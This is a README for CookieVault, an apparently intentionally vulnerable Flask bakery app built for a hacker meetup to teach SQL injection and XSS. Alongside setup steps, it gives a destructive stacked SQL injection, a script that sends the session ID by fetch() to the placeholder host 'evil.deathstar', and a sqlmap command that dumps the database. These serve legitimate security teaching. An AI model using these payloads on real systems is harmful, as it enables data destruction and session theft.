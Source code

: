 ## CookieVault

Made for "Evanston Happy Hackers".

This is a simple Python+SQL app that shows how you can run a cookie bakery, and also what SQL Injection bugs are and what they can cause.

## Running

1. **Set up the virtual environment:**

    ```sh
    python3 -m venv venv
    source venv/bin/activate
    ```

2. **Install the required packages:**

    ```sh
    pip install flask
    ```

3. **Create the database and populate it with initial data:**

    ```sh
    python create_database.py
    ```

4. **Run the web application:**

    ```sh
    python run_web_app.py
    ```

5. **Access the application:**

    Open your web browser and go to `http://127.0.0.1:5000/`.

## Exploiting

To demonstrate SQL injection vulnerabilities:

1. **Update Cookie Stock:**

    - Go to the "Update Cookie Stock" section.
    - Enter a `cookie_id` and a `new_stock` value.
    - For example, to set the stock of cookie with `id=1` to 20, enter `1` for `cookie_id` and `20` for `new_stock`.

2. **SQL Injection Example:**

    - Enter a malicious input to exploit the SQL injection vulnerability that exists on the path `/update_stock`.
    - Make sure to edit the HTML form elements with `F12` to disable numeric input validation.
    - For example, to delete all cookies, enter `1; DELETE FROM cookies; --` for `cookie_id` and any value for `new_stock`.
    - This will execute the `DELETE FROM cookies` SQL command, removing all cookies from the database.

To demonstrate Cross-Site Scripting (XSS) vulnerabilities:

1. **Add Comment:**

    - Go to the "Add Comment" section.
    - Enter a comment.

2. **XSS Example:**

    - Enter a malicious script to exploit the XSS vulnerability.
    - For example, enter `<script>alert('XSS');</script>` as the comment.
    - This will execute the JavaScript code, showing an alert box with the message "XSS".

3. **Leaking Session ID:**

Enter a malicious script to leak the session ID.

For example, enter:

```js
<script>
document.addEventListener('DOMContentLoaded', function() {
    fetch('http://evil.deathstar/leak?session_id=' + document.getElementById('session_id').value);
});
</script>
```

as the comment.

This will send the session ID to the specified URL, demonstrating how XSS can be used to steal sensitive information.

Look in the F12 console to see the session ID being exfiltrated via the Network tab.


**Note:** This is for educational purposes only. Do not use SQL injection or XSS in real applications.

## Using SQLMap

   sqlmap -u "http://localhost:5000/update_stock" --data "cookie_id=1&new_stock=1" -p "cookie_id" --method POST --dump --batch